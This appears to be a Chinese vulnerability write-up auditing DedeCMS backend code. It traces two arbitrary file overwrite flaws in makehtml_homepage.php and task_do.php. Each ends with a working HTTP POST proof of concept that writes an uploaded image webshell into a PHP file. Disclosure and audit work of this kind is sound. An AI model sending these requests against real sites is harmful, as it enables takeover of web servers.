# php代码审计篇 - Dedecms 后台任意代码执行分析-先知社区

> **来源**: https://xz.aliyun.com/news/18233  
> **文章ID**: 18233

---

# 序言

之前突然有想法打算拿一个dedecms的cnvd高危证书于是开始了下面的审计。

下面这两个漏洞都是围绕makehtml\_homepage.php文件中 SetTemplet()方法和SaveToHtml()方法 延伸出来的漏洞 最开始发现的第一个漏洞，后来过了一段时间回过去继续看，又进行一些变化，延伸出第二个漏洞

​

下面所说漏洞版本只是针对审计时使用的版本

# DedeCMS V5.7.113任意文件覆盖导致代码执行

## **地址：**

<https://dedecms.com/>

## **影响版本：**

DeDeCMS <=5.7.113

 

## **代码分析**

漏洞文件：/dede/makehtml\_homepage.php

```
else if($dopost=="make")  
{  
    $remotepos = empty($remotepos)? '/index.html' : $remotepos;  
    $isremote = empty($isremote)? 0 : $isremote;  
    $serviterm = empty($serviterm)? "" : $serviterm;  
    $homeFile = _DEDEADMIN_."/".$position;  
    $homeFile = str_replace("\","/",$homeFile);  
    $homeFile = str_replace("//","/",$homeFile);  
    $fp = fopen($homeFile,"w") or die("你指定的文件名有问题，无法创建文件");  
    fclose($fp);  
    if($saveset==1)  
    {  
        $iquery = "UPDATE `#@__homepageset` SET templet='$templet',position='$position' ";  
        $dsql->ExecuteNoneQuery($iquery);  
    }  
    _//_ _判断首页生成模式_    if ($showmod == 1)  
    {  
        _//_ _需要生成静态_        $templet = str_replace("{style}", $cfg_df_style, $templet);  
        $pv = new PartView();  
        $GLOBALS['_arclistEnv'] = 'index';  
        $pv->SetTemplet($cfg_basedir.$cfg_templets_dir."/".$templet);  
        $pv->SaveToHtml($homeFile);  
        echo "成功更新主页HTML：".$homeFile."<br /><a href='{$position}' target='_blank'>浏览...</a><br />";  
    } else {  
        _//_ _动态浏览_        if (file_exists(_DEDEADMIN_."/../index.html")) @unlink(_DEDEADMIN_."/../index.html");  
        echo "采用动态浏览模式：<a href='../index.php' target='_blank'>浏览...</a><br />";  
    }
```

其中

```
$pv->SetTemplet($cfg_basedir.$cfg_templets_dir."/".$templet);
```

跟进去

```

function SetTemplet($temp,$stype="file")  
{  
    if($stype=="string")  
    {  
        $this->dtp->LoadSource($temp);  
    }  
    else  
    {  
        $this->dtp->LoadTemplet($temp);  //进入到这里  
    }  
    if($this->TypeID > 0)  
    {  
        $this->Fields['position'] = $this->TypeLink->GetPositionLink(TRUE);  
        $this->Fields['title'] = $this->TypeLink->GetPositionLink(false);  
    }  
    $this->ParseTemplet();  
}

```

```
function LoadTemplet($filename)  
{  
    $this->LoadTemplate($filename);//继续跟进  
}

```

```
function LoadTemplate($filename)  
{  
    $this->SetDefault();  
    if(!file_exists($filename))  
    {  
        $this->SourceString = " $filename Not Found! ";  
        $this->ParseTemplet();  
    }  
    else  
    {  
        $fp = @fopen($filename, "r");  //读取文件  
        while($line = fgets($fp,1024))  //将文件内容赋值给$line  
        {  
            $this->SourceString .= $line;  //最后赋予$this->SourceString  
        }  
        fclose($fp);  
        if($this->LoadCache($filename))  
        {  
            return '';  
        }  
        else  
        {  
            $this->ParseTemplet();  
        }  
    }  
}

```

将文件内容赋值给$this->SourceString

```
$pv->SaveToHtml($homeFile);
```

这行代码跟进

```
function SaveToHtml($filename,$isremote=0)  
{  
    global $cfg_remote_site;  
    _//__如果启用远程发布则需要进行判断_    if($cfg_remote_site=='Y' && $isremote == 1)  
    {  
        _//__分析远程文件路径_        $remotefile = str_replace(_DEDEROOT_, '', $filename);  
        $localfile = '..'.$remotefile;  
        _//__创建远程文件夹_        $remotedir = preg_replace('/[^\/]*\.js/', '', $remotefile);  
        $this->ftp->rmkdir($remotedir);  
        $this->ftp->upload($localfile, $remotefile, 'ascii');  
    }  
    $this->dtp->SaveTo($filename);   //跟进到这里  
}
```

```

function SaveTo($filename)  
{  
    $fp = @fopen($filename,"w") or die("DedeTag Engine Create File False: {$filename}");  
    fwrite($fp,$this->GetResult());  //写入功能 继续跟进去看将什么内容写入了  
    fclose($fp);  
}

function GetResult()  
{  
    $ResultString = '';  
    if($this->Count==-1)   //这里由于$Count 的值已经定义为-1 所以在这里被赋值

  
    {  
        return $this->SourceString;    //之前templet的文件内容被赋值到$this->SourceString中  
    }  
    $this->AssignSysTag();  
    $nextTagEnd = 0;  
    $strok = "";  
    for($i=0;$i<=$this->Count;$i++)  
    {  
        $ResultString .= substr($this->SourceString,$nextTagEnd,$this->CTags[$i]->StartPos-$nextTagEnd);  
        $ResultString .= $this->CTags[$i]->GetValue();  
        $nextTagEnd = $this->CTags[$i]->EndPos;  
    }  
    $slen = strlen($this->SourceString);  
    if($slen>$nextTagEnd)  
    {  
        $ResultString .= substr($this->SourceString,$nextTagEnd,$slen-$nextTagEnd);  
    }  
    return $ResultString;  //最后返回内容 将templet传入的文件内容写入到了$homeFile中也就是传入的position指定的文件中  
}

```

分析完文件覆盖功能

分析整篇代码 想要利用此功能达到代码执行需要满足条件 传入以下值dopost=make、showmod=1即可进入上述覆盖功能处，然后传入templet=文件、Position=被覆盖文件  其中Position不存在任何过滤 ，templet存在过滤不能使用../ 所以只能是在/templets/目录中的文件

 

 



## **漏洞利用**

### **第一步 上传图片马**

利用系统的文件管理器上传包含恶意内容的图片文件在且/templets/目录中

 

 

选择一个php文件  系统根目录的tags.php 作为漏洞利用的被覆盖文件

 

### **第二步  利用漏洞点**

Poc:

```
POST /dede/makehtml_homepage.php HTTP/1.1
Host: dedexin.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dedexin.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dedexin.com/dede/makehtml_homepage.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=2arsdvohnfcikal48h8hr7ubk0; _csrf_name_1c92fd8c=07275bb19eb1a468e0ca33f375d922d9; _csrf_name_1c92fd8c1BH21ANI1AGD297L1FF21LN02BGE1DNG=b4f481ed8fe16761; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=54d02982fb32518a; DedeLoginTime=1712737433; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=c773fe091ed4fc7c
Accept-Encoding: gzip, deflate, br
Content-Length: 53
Connection: close
dopost=make&templet=mu.gif&position=..%2Ftags.php&showmod=1
```

漏洞参数 templet  position

 

 

Phpinfo

 

连接shell




# DedeCMS V5.7.115 任意文件覆盖导致代码执行二

## 

## **影响版本：**

DeDeCMS <=5.7.115

 

## **代码分析**

漏洞文件：  dede/task\_do.php

```
if($dopost=='makeindex')

{

    require_once(DEDEINC.'/arc.partview.class.php');

    $envs = $_sys_globals = array();

    $envs['aid'] = 0;

    $pv = new PartView();

    $row = $pv->dsql->GetOne('SELECT * FROM `#@__homepageset`');

    $templet = str_replace("{style}", $cfg_df_style, $row['templet']);

    $homeFile = dirname(__FILE__).'/'.$row['position'];

    $homeFile = str_replace("//", "/", str_replace("\", "/", $homeFile));

    $fp = fopen($homeFile, 'w') or die("无法更新网站主页到：$homeFile 位置");

    fclose($fp);

    $tpl = $cfg_basedir.$cfg_templets_dir.'/'.$templet;

    if(!file_exists($tpl))

    {

        $tpl = $cfg_basedir.$cfg_templets_dir.'/default/index.htm';

        if(!file_exists($tpl)) exit("无法找到主页模板：$tpl ");

    }

    $GLOBALS['_arclistEnv'] = 'index';

    $pv->SetTemplet($tpl);

    $pv->SaveToHtml($homeFile);

    $pv->Close();

其中进一步深入分析 $pv->SetTemplet($tpl)和  $pv->SaveToHtml($homeFile);

$pv->SetTemplet($tpl);
```

跟进去

```
function SetTemplet($temp,$stype="file")  
{  
    if($stype=="string")  
    {  
        $this->dtp->LoadSource($temp);  
    }  
    else  
    {  
        $this->dtp->LoadTemplet($temp);  //进入到这里  
    }  
    if($this->TypeID > 0)  
    {  
        $this->Fields['position'] = $this->TypeLink->GetPositionLink(TRUE);  
        $this->Fields['title'] = $this->TypeLink->GetPositionLink(false);  
    }  
    $this->ParseTemplet();  
}
```

```
function LoadTemplet($filename)  
{  
    $this->LoadTemplate($filename);//继续跟进  
}

```

```
function LoadTemplate($filename)  
{  
    $this->SetDefault();  
    if(!file_exists($filename))  
    {  
        $this->SourceString = " $filename Not Found! ";  
        $this->ParseTemplet();  
    }  
    else  
    {  
        $fp = @fopen($filename, "r");  //读取文件  
        while($line = fgets($fp,1024))  //将文件内容赋值给$line  
        {  
            $this->SourceString .= $line;  //最后赋予$this->SourceString  
        }  
        fclose($fp);  
        if($this->LoadCache($filename))  
        {  
            return '';  
        }  
        else  
        {  
            $this->ParseTemplet();  
        }  
    }  
}

上面将读取到的文件内容赋值给$this->SourceString

$pv->SaveToHtml($homeFile);

这行代码跟进
```

```
function SaveToHtml($filename,$isremote=0)  
{  
    global $cfg_remote_site;  
    _//__如果启用远程发布则需要进行判断_    if($cfg_remote_site=='Y' && $isremote == 1)  
    {  
        _//__分析远程文件路径_        $remotefile = str_replace(_DEDEROOT_, '', $filename);  
        $localfile = '..'.$remotefile;  
        _//__创建远程文件夹_        $remotedir = preg_replace('/[^\/]*\.js/', '', $remotefile);  
        $this->ftp->rmkdir($remotedir);  
        $this->ftp->upload($localfile, $remotefile, 'ascii');  
    }  
    $this->dtp->SaveTo($filename);   //跟进到这里  
}
```

```
function SaveTo($filename)  
{  
    $fp = @fopen($filename,"w") or die("DedeTag Engine Create File False: {$filename}");  
    fwrite($fp,$this->GetResult());  //写入功能 继续跟进去看将什么内容写入了  
    fclose($fp);  
}

function GetResult()  
{  
    $ResultString = '';  
    if($this->Count==-1)   //这里由于$Count 的值已经定义为-1 所以在这里被赋值

  
    {  
        return $this->SourceString;    //之前templet的文件内容被赋值到$this->SourceString中  
    }  
    $this->AssignSysTag();  
    $nextTagEnd = 0;  
    $strok = "";  
    for($i=0;$i<=$this->Count;$i++)  
    {  
        $ResultString .= substr($this->SourceString,$nextTagEnd,$this->CTags[$i]->StartPos-$nextTagEnd);  
        $ResultString .= $this->CTags[$i]->GetValue();  
        $nextTagEnd = $this->CTags[$i]->EndPos;  
    }  
    $slen = strlen($this->SourceString);  
    if($slen>$nextTagEnd)  
    {  
        $ResultString .= substr($this->SourceString,$nextTagEnd,$slen-$nextTagEnd);  
    }  
    return $ResultString;  //最后返回内容 将templet传入的文件内容写入到了$homeFile中也就是传入的position指定的文件中  
}
```

分析完这两个方法得知这是读取$tpl文件内容并写入到$homeFile的一个操作

并且分析代码得知 这两个的值都是从数据库中取出

 

所以接下来就是看 有没有其他功能 能改写数据库中这个表中的对应的值  看这个值是否可控

 全局搜索发现此处存在sql语句更新表中内容

 

文件  dede/makehtml\_homepage.php

```
$templet = preg_replace("/[.]+[\/\\]+/", "/", $templet);  
  
if(empty($dopost)) $dopost = '';  
  
if($dopost=="view")  
{  
    $pv = new PartView();  
    $templet = str_replace("{style}",$cfg_df_style,$templet);  
    $pv->SetTemplet($cfg_basedir.$cfg_templets_dir."/".$templet);  
    $pv->Display();  
    exit();  
}  
else if($dopost=="make")  
{  
    $remotepos = empty($remotepos)? '/index.html' : $remotepos;  
    $isremote = empty($isremote)? 0 : $isremote;  
    $serviterm = empty($serviterm)? "" : $serviterm;  
    $homeFile = DEDEADMIN."/".$position;  
    $homeFile = str_replace("\","/",$homeFile);  
    $homeFile = str_replace("//","/",$homeFile);  
    $fp = fopen($homeFile,"w") or die("你指定的文件名有问题，无法创建文件");  
    fclose($fp);  
    if($saveset==1)  
    {  
        $iquery = "UPDATE `#@__homepageset` SET templet='$templet',position='$position' ";  
//        die($iquery);  
        $dsql->ExecuteNoneQuery($iquery);  
    }

```

分析代码得知 '$templet的值经过过滤 不可以使用../  没有其他限制 $position无任何限制

值是可控的

查看数据库中@\_\_homepageset名字为这个的表也就是dede\_homepageset表

 

然后在echo 一下$tpl 和$homeFile的值 来确认路径信息 方便得知我们需要将这个值改为什么可以方便的进行文件覆盖拿到shell

 

 

得知  tpl的值在存储数据库中的$templet参数因为存在../过滤 所以必须要在/templets目录下  homeFile 无限制 可以直接写为../1.php  文件不存在的话fopen(homeFile, 'w')会创建此文件

此外由于 系统存在 模块-文件管理器 可以直接在templets中上传一个图片码，这样 两个参数即都已经处于可控状态 并且可以控制 $homeFile参数成为可以写入包含恶意代码的php文件

 

## **漏洞利用**

### **第一步 上传图片马**

利用系统的文件管理器上传包含恶意内容的图片文件在且/templets/目录中

 

 

这样/templets/下存在一个phpinfo.png 的文件

### **第二步**  **更改数据库中的两个参数的内容**

 

Poc

```
POST /dede/makehtml_homepage.php HTTP/1.1

Host: dede.test.com

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=a8g7jmunlsc13k921p5i7e5idh; _csrf_name_65a662a9=fe9ab3ba5fb0c17275051ecaf0cd79f3; _csrf_name_65a662a91BH21ANI1AGD297L1FF21LN02BGE1DNG=14d49edb9c9ca536; XDEBUG_SESSION=XDEBUG_ECLIPSE; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=bd2d5486c005cdd5; DedeLoginTime=1722498125; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=82a6253c29408017

Accept-Encoding: gzip, deflate, br

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 59

dopost=make&saveset=1&templet=phpinfo.png&position=../1.php
```

 

发现数据库中的内容被更改为我们指定的内容

